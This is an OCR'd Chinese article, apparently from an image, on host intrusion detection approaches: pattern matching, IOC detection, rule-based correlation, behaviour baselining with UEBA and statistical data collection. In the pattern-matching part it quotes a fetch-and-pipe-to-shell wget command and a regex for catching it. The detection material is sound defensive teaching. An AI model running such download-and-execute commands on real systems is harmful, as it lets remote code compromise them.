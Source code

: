 匹配模式

已知特征将已知特征转换为模式，存放在模式数据库中，在检测过程中将捕获的事件与模式数据库中的入侵模式进行匹配，若匹配成功则认为有入侵行为发生。如：wget http://test.com/eval.sh-o eval.sh | sh通过正则表达式对这种误用行为模式进行概括描述为wget\s+http:.*(\s+-\w+){0,}\s+-o\s+.*\.(sh|pl)\s*\|sh这里存在着漏报和误报的问题，例如某正常用户管理员可能会执行下列指令，用于自动化的批量运维部署，但是对应一些有着明显的攻击特征可以直接检测，对于这样的现状常见的思路是”升维“或者”维度切换“，在一个维度无法区分的向量，升级到多维度结合判断

IOC检测IOC是可用于客观描述网络入侵事件，以与平台无关方法表示的任意信息片断

> 注册表键值、文件名、文本字符串、进程名、文件哈希、IPv4地址、URL、电子邮件地址

目前通过分析过的IOC来看，存在大量的IOC过期导致的误报事件，解决这个问题的常见方法是继续IOC再关联行为分析，如：邮件文件发现存在恶意hash值的office文件，其IOC事件的用户行为为：下载文件、DLL代码被执行、发起CC连接，匹配对应事件后定义为恶意IOC，但可能存在的情况是未能及时触发行为，导致漏报。

**关联检测**

通过将匹配模式的规则转化成IF-THEN规则，形成知识库，然后，运用推理算法进行检测入侵。编码规则说明攻击的必要条件作为IF的组成部分，当规则的左边的全部条件都满足时，规则的右边的动作才会执行，形成逻辑判断

**基于行为的检测**

先总结正常操作应该具有的特征（用户轮廓），当用户活动与正常行为有重大偏差时即被认为是入侵。所以选取的特征量既要能够准确体现用户行为特征又要能够使模型最优化以最少的特征覆盖用户行为阈值，且需建立正常的特征轮廓并以此作为比较基准，当阀值过大，漏报率高，阀值过小，误报率搞，需要以当前用户行为特征为非正常的行为，且特征轮廓不断更新，时间窗口需要选择合适的频率通常会用UEBA方法论对事件进行建模分析，【攻击者目的：攻击者达到此目的的可能行为步骤：攻击后获得的结果】，如：【系统提权：常见信息收集；上传/下载恶意脚本；凭证窃取；root调用的其低权限文件】，建模扩大了入侵检测的纬度范围，辅助检测，坚解决不好检测和误报高事件。

基于统计的检测

**统计方法先采集信息：**

> 基础信息
>
> CPU信息
>
> 内存信息
>
> 网卡数据
>
> 系统组信息
>
> 系统用户
>
> 设备接入信息
>
> 应用软件信息
>
> ...

**数据信息**

> 网络连接
>
> 文件调用
>
> 进程启动
>
> 监听端口数据
>
> 本地防火墙信息
>
> 计划任务信息
>
> 环境变量信息
>
> 内核模块信息
>
> 历史访问记录
>
> ...
